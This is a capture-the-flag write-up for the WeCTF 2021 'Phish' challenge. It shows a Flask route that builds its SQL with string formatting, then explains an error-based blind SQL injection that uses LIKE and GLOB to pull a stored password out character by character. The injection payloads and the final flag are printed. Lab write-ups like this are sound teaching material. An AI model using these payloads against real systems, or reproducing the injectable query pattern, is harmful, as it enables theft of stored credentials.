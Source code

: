 # Phish

## Medium

## Description  
Shou is so dumb that he leaks his password (flag) to a phishing website.  
  
  
Note: The flag contains underscore  
  
  
Host 1 (San Francisco): phish.sf.ctf.so  
  
Host 2 (Los Angeles): phish.la.ctf.so  
  
Host 3 (New York): phish.ny.ctf.so  
  
Host 4 (Singapore): phish.sg.ctf.so  

[Source Code](Assets/phish)

# Solution  
## Discovery  
### Source Code  
We browse [main.py](Assets/phish/main.py), and find the code that is
responsible for sending the data to the database  
  
```Python  
@app.route("/add", methods=["POST"])  
def add():  
   username = request.form["username"]  
   password = request.form["password"]  
   sql = f"INSERT INTO `user`(password, username) VALUES ('{password}',
'{username}')"  
   try:  
       db.execute_sql(sql)  
   except Exception as e:  
       return f"Err: {sql}   
" + str(e)  
   return "Your password is leaked :)  
" + \  
          """<blockquote class="imgur-embed-pub" lang="en" data-id="WY6z44D"  >Please   
       take care of your privacy</blockquote><script async src="//s.imgur.com/min/embed.js"   
       charset="utf-8"></script> """  
```  
More importantly, focus on this section of the code:  
```Python  
sql = f"INSERT INTO `user`(password, username) VALUES ('{password}',
'{username}')"  
```  
This is vulnerable to SQL Injection attacks  
  
  

### SQL Injection  
A quick example of using SQL Injection with the above style of code is shown
below  
```Python  
>>> password = "abc"  
   username = "(SELECT * FROM xyz)') -- "  
   sql = f"INSERT INTO `user`(password, username) VALUES ('{password}',
'{username}')"  
   print(sql)  
  
#   INSERT INTO `user`(password, username) VALUES ('abc', '(SELECT * FROM
xyz)') -- ')  
```  
As we can see, it will allow us to `SELECT` columns from tables, or perform
other actions  
  
  
  
  

## Exploit  
### Acquring characters present in password  
We intend to acquire the characters present in the password by brute-forcing
it through SQL queries like this, where `---HERE---` is the character we are
testing  
```SQL  
INSERT INTO `user`(password, username) VALUES ('a',(SELECT password FROM user
WHERE username = "shou" AND password LIKE "%---HERE---%")); --', 'abc'')  
```  
  
  
To explain how this works, we will first analyse the `SELECT` statement  

```SQL  
SELECT password FROM user WHERE username = "shou" AND password LIKE
"%---HERE---%"  
```  
We know that there is a username `shou` with the password as the flag  
  
Hence, we can check if a character is present in the password by adding a
condition where `password LIKE "%---HERE---%"`  
  
This works by using the `LIKE` condition, along with the multiple character
wildcard, `%`  
  

If the character is present, our query will return: `UNIQUE constraint failed:
user.username`  
  
This is because the `SELECT` statement returns `shou`, but `shou` has already
been phished, and his username is present, thus we are unable to create a new
row with the username `shou`  

If the character is not in the password, our query will return: `NOT NULL
constraint failed: user.username`  
  
This is because SQLite expects a string to be there, yet nothing is selected
since `shou`'s password does not contain the character  
  

To implement this, we send this as the POST data, where `{i}` the character we
are testing:  
  
- username : `abc,`  
  
- password : `a',(SELECT password FROM user WHERE username = "shou" AND password LIKE "%{i}%")); --`  
  
  
  
  

### Brute-forcing password  
After acquring all the characters present in the password, we need to figure
out how the characters are strung together  
  
At first, we tried a very similar approach using `LIKE "---HERE---%"` as a
condition in the `SELECT` statement  
  

However, `LIKE` is **case insensitive**. ie, `"a" LIKE "a"` is `True`, and
`"A" LIKE "a"` is also `True`  
  
The flag is **case sensitive**, hence we needed to find another operator  
  

Introducing `GLOB`, it is similar to `LIKE`, just that it is **case
sensitive**  
  
`GLOB` has `*` as a wildcard, and can accept REGEX queries  
  

We then use a similar injection as the first portion, where we want the
following query to run, where `---HERE---` is a portion of the flag:  
```SQL  
INSERT INTO `user`(password, username) VALUES ('a',(SELECT password FROM user
WHERE username = "shou" AND password GLOB "---HERE---*"));--', 'abc')  
```

Similar to the first portion, if the segment of the flag is correct, it
returns `UNIQUE constraint failed: user.username`  

If the segment is incorrect, it returns `NOT NULL constraint failed:
user.username`  
  
  
  
  

## Script  
Hence, we created a [short Python script](Assets/Phish/solve.py) to solve for
the flag  
  
Since we are not allowed to send >100 requests per second, we added
`time.sleep(0.1)` to limit our requests to at most 10 per second  

> we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P}

Original writeup (https://github.com/StrixGoldhorn/CTF-
Writeups/blob/main/WeCTF%202021/Phish.md).
